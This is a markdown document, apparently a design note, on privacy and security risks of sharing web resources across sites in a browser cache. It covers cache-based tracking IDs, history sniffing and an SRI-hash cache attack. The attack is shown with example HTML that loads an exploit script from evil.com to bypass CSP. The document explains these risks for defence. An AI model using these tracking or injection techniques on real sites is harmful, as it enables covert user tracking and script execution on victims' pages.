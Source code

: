 # Privacy Risks with Shared Web Resources

This is a collection of the known privacy risks associated with storing web resources in a shared browser cache.

## Unique Payload

The contents in a file in a shared cache can be used as a tracking vector similar to cookies by embedding a unique payload in the file. For example, `https://example.com/uid` can be configured to return a unique value every time it is accessed and set a long cache lifetime on the response. Any page that requests `https://example.com/uid` will get the unique ID from the shared cache.

This risk can be mitigated by requiring the use of [Subresource Integrity](countermeasures.md#subresource-integrity-sri).

## File Existence as Bits

If the shared cache can be probed for the existence of a file (and it is best to assume that it can be), then each file can proved 1-bit of information to an attacker. By using 32 unique files, say `https://example.com/uid/1` through `https://example.com/uid/32`, an attacker can generate a unique 32-bit identifier for a given user, set the bits by storing the relevant files and then probe for the ID by checking for the existence of each of the 32 URLs to regenerate the 32-bit unique ID.

## History Sniffing

Being able to probe the shared cache for resources can leak information about the user. This can be a variety of things, including things that may not obviously appear to be a risk but that may still be sensitive to a specific user:

* The authentication provider they use may be identified by locating resources in cache that are unique to that authentication provider. This could be abused to make a phishing attack more effective.
* The bank a user uses could be sniffed in a similar way, making financial attacks more effective.
* The user's location or areas of interest may be leaked by identifying specific map tiles in a shared cache.

## SRI-Addressing

It is tempting to de-dupe the same resource across origins by using the hash of the contents as a cache key in a shared cache (allowing for jquery to be shared for example).

Using the integrity hash of a resource as the cache key in a shared resource cache comes with a significant risk of being able to forge the origin of a resource, allowing for a bypass of ]Content Security Policy](https://www.w3.org/TR/CSP3/) protections.

i.e. Let's say that the integrity hash of a javascript exploit script (`exploit.js`) is `sha256-12345` and you are using a browser where the resource hash, when available, is used as the cache key in a shared cache for a resource.

1. An attacher can stuff the script into the shared cache by loading `<link rel=preload as=script href="https://evil.com/exploit.js" integrity="sha256-12345">`
1. On some other site (`example.com`), say with a cross-site scripting vulnerability and CSP protections to only allow same-origin scripts, the attacker injects `<script src="https://example.com/analytics.js" integrity="sha256-12345">`
1. The browser finds `exploit.js` in the cache with the matching integrity hash of `sha256-12345` and returns it as if it were the contents of `https://example.com/analytics.js` (even if the file does not exist on the origin).
1. Since the result of analytics.js is same-origin, it passes the CSP protections and executes `exploit.js` as if it was on the same origin as the site being attacked.

# References

* [Subresource Integrity Addressable Caching](https://hillbrad.github.io/sri-addressable-caching/sri-addressable-caching.html) - Privacy and risks with using SRI to index caches (most of which apply to shared caches as well).
* [W3C - Consider shared caching](https://github.com/w3c/webappsec-subresource-integrity/issues/22) - Discussion on implementing shared caching.
* [Cache and Prizes](https://infrequently.org/2022/03/cache-and-prizes/) - Discussion on the ecosystem risks of favoring "popular" resources.
* [Chrome http cache partitioning](https://github.com/shivanigithub/http-cache-partitioning) - Discusses the current partitioning scheme and background.